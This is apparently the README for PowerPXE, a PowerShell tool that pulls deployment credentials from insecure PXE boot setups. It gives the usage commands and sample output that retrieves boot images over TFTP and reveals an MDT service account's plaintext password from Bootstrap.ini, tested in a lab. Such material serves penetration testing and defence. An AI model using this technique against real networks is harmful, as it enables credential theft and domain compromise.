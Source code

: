 # PowerPXE
PowerPXE is a PowerShell script that extracts interesting data from insecure PXE boot.

The associated article was published in MISC n° 103 (in french).

# Quick Usage
Open an elevated PowerShell prompt :
```
Import-Module PowerPxe
Get-PXEcreds -InterfaceAlias Ethernet
```

The ouput should be :
```
    >> Get a valid IP adress
    >>> >>> DHCP proposal IP address: 192.168.22.101
    >>> >>> DHCP Validation: DHCPACK
    >>> >>> IP address configured: 192.168.22.101
    >> Request BCD File path
    >>> >>> BCD File path:  \Tmp\x86x64{5AF4E332-C90A-4015-9BA2-F8A7C9FF04E6}.bcd
    >>> >>> TFTP IP Address:  192.168.22.3
    >> Launch TFTP download
    >>>> Transfer succeeded.
    >> Parse the BCD file: conf.bcd
    >>>> Identify wim file : \Boot\x86\Images\LiteTouchPE_x86.wim
    >>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
    >> Launch TFTP download
    >>>> Transfer succeeded.
    >> Open LiteTouchPE_x86.wim
    >>>> Finding Bootstrap.ini
    >>>> >>>> DeployRoot = \\LAB-MDT\DeploymentShare$
    >>>> >>>> UserID = MdtService
    >>>> >>>> UserDomain = lab.fr
    >>>> >>>> UserPassword = Somepass1
    >> Launch TFTP download
    >>>> Transfer succeeded.
    >> Open LiteTouchPE_x64.wim
    >>>> Finding Bootstrap.ini
    >>>> >>>> DeployRoot = \\LAB-MDT\DeploymentShare$
    >>>> >>>> UserID = MdtService
    >>>> >>>> UserDomain = lab.fr
    >>>> >>>> UserPassword = Somepass1
```

# Lab deployement

In order to test this module, the framework [AutomatedLab](https://github.com/AutomatedLab/AutomatedLab/) was used to automatically deploy a lab with Microsoft Deployment Toolkit (MDT) installed. The deployement script is present inside the "Labs" directory.

# Credits

I'd like to thank the following people for their work :
- **Thomas Elling** : [Attacks Against Windows PXE Boot Images](https://blog.netspi.com/attacks-against-windows-pxe-boot-images/)
- **Chris Dent** : [DHCP Discovery](https://www.indented.co.uk/dhcp-discovery/)
- **Valks**: [TFTP.NET implementation](https://github.com/Valks/tftp.net)
- **Matthew Graeber** : [BCD powershell module](https://github.com/mattifestation/BCD)
